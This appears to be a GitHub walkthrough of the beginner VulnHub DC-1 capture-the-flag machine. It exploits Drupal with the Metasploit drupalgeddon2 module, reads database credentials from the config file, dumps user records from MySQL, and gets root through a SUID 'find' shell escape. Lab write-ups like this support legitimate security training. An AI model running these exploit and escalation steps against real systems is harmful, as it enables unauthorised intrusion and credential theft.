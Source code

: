 # DC-1-Vulnhub-Walkthrough
DC-1 is a beginner-friendly CTF-style virtual machine available on VulnHub (https://vulnhub.com/), designed to help users practice penetration testing and privilege escalation techniques. In this walkthrough, we explore how to enumerate the target, identify vulnerabilities, and exploit them to gain root access.  

# SCANNING

```nmap -sV -A -sC -p- [ Target IP ]```  

![Screenshot From 2025-02-26 21-24-56](https://github.com/user-attachments/assets/07adafad-171a-4d44-985b-38d884a9fc6e)

# EXPLOITATION 
Open metasploit  

![Pasted image](https://github.com/user-attachments/assets/f768ac0c-5c6a-4995-89f0-51436cc8982b)

#
Search for drupal  

```use exploit/unix/webapp/drupal_drupalgeddon2```  

![Screenshot From 2025-02-26 21-46-22](https://github.com/user-attachments/assets/905ce6c5-8237-46e7-9b9c-bf8e5c0cc806)  

```show options```  

![Screenshot From 2025-02-26 21-48-18](https://github.com/user-attachments/assets/fa3279b9-7e5b-4a72-ab19-ee8da17d2ad0)

```set RHOSTS [Target IP]```  

AND  

```exploit ``` or ```run```  

![Screenshot From 2025-02-26 21-48-34](https://github.com/user-attachments/assets/760fd810-b62a-4d87-8f8a-a0c8030155be)  

As you can see the meterpreter session was opened  
Check for system information using ```sysinfo```  
Open the command shell by typing ```shell```  

![Screenshot From 2025-02-26 21-49-02](https://github.com/user-attachments/assets/3cb1b675-f409-49c0-81f4-207a5b9108f5)  

```ls```  
```cat flag1.txt```  

![Screenshot From 2025-02-26 21-51-55](https://github.com/user-attachments/assets/8fe976b6-feca-4ac0-849f-14029fa3df5c)   
#  

**Flag 1 - "Every good CMS needs a config file - and so do you."**  

#  


Open bash SHELL ``` pyhton -c "import pty; pty.spawn('/bin/bash')"```  

![Screenshot From 2025-02-26 21-55-44](https://github.com/user-attachments/assets/447f185d-97f6-47ca-b524-cefd7e8bdb66)  

Locate drupal config-file ``` sites/default/settings.php ```  

![Screenshot From 2025-02-26 22-01-02](https://github.com/user-attachments/assets/60e3b929-4607-4126-bd61-82493ea79eb1)  

#  
**Flag 2 - Brute force and dictionary attacks aren't the only ways to gain access (and you will need access). What can you do with these credentials?**  

**database => 'drupaldb'**  
**username => 'dbuser'**  
**password => 'R0ck3t'**  

#  
loginto mysql ```mysql -u dbuser -p ```  
for password ```R0ck3t```  

![Screenshot From 2025-02-26 22-02-39](https://github.com/user-attachments/assets/12571a7a-eec7-4df5-abcd-5d6e254afd07)  

let's dive into some sql codes  

```show databases;```
```use drupaldb```  

![Screenshot From 2025-02-26 22-04-05](https://github.com/user-attachments/assets/9be04aa5-15d1-478f-b077-9211527a0cf7)  

```show tables```  

![Screenshot From 2025-02-26 22-04-35](https://github.com/user-attachments/assets/c7a184ad-e72f-434d-b971-0f0545dacc27)  

```select * from users```  

![Screenshot From 2025-02-26 22-05-23](https://github.com/user-attachments/assets/98842925-9174-47a1-b243-d1bad7671614)  

![Screenshot From 2025-02-26 22-07-06](https://github.com/user-attachments/assets/d160930a-1d84-46c2-b779-e287883dc18e)  
#  

# PRIVILEGE ESCALATION  

Go to GTFOBins and search 'find'  

![Screenshot From 2025-02-26 22-13-44](https://github.com/user-attachments/assets/58b3c71b-4e40-47e3-a871-8e6a951666e6)  

```find . -exec /bin/sh \;```  

![Screenshot From 2025-02-26 22-14-46](https://github.com/user-attachments/assets/6a10782d-097d-453d-857b-dad2165dee25)  


Here we go; We got the **ROOT**  

![Screenshot From 2025-02-26 22-15-13](https://github.com/user-attachments/assets/020649bc-4162-4eec-99fb-4ef286300ec4)  

```cd /root```  
```ls```  
```cat thefinalflag.txt```  


![Screenshot From 2025-02-26 22-16-18](https://github.com/user-attachments/assets/5887fc34-cf41-4dce-8c06-bd24c56b3ace)  

#  
**Flag 3**   


**Well done!!!  
Hopefully you've enjoyed this and learned some new skills.  
You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7**  

#
































